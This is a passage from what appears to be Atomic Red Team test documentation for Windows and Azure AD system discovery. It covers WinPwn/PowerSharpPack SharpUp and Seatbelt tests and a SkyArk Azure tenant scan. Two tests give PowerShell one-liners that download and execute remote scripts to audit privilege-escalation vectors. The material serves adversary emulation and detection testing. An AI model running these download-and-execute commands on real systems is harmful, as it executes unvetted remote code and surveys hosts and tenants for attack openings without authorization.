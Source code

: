 PowerSharpPack - Sharpup checking common Privesc vectors technique via function of WinPwn - Takes several minutes to complete.

**Supported Platforms:** Windows

**auto_generated_guid:** efb79454-1101-4224-a4d0-30c9c8b29ffc

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpUp.ps1')
Invoke-SharpUp -command "audit"
```

<br/>
<br/>

## Atomic Test #23 - WinPwn - PowerSharpPack - Seatbelt

PowerSharpPack - Seatbelt technique via function of WinPwn.

[Seatbelt](https://github.com/GhostPack/Seatbelt) is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

**Supported Platforms:** Windows

**auto_generated_guid:** 5c16ceb4-ba3a-43d7-b848-a13c1f216d95

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Seatbelt.ps1')
Invoke-Seatbelt -Command "-group=all"; pause
```

<br/>
<br/>

## Atomic Test #24 - Azure Security Scan with SkyArk

Upon successful execution, this test will utilize a valid read-only Azure AD user's credentials to conduct a security scan and determine what users exist in a given tenant, as well as identify any admin users.
Once the test is complete, a folder will be output to the temp directory that contains 3 csv files which provide info on the discovered users.
See https://github.com/cyberark/SkyArk

**Supported Platforms:** Azure-ad

**auto_generated_guid:** 26a18d3d-f8bc-486b-9a33-d6df5d78a594

#### Inputs:

| Name     | Description       | Type   | Default Value |
| -------- | ----------------- | ------ | ------------- |
| username | Azure AD username | string |               |
| password | Azure AD password | string | T1082Az       |
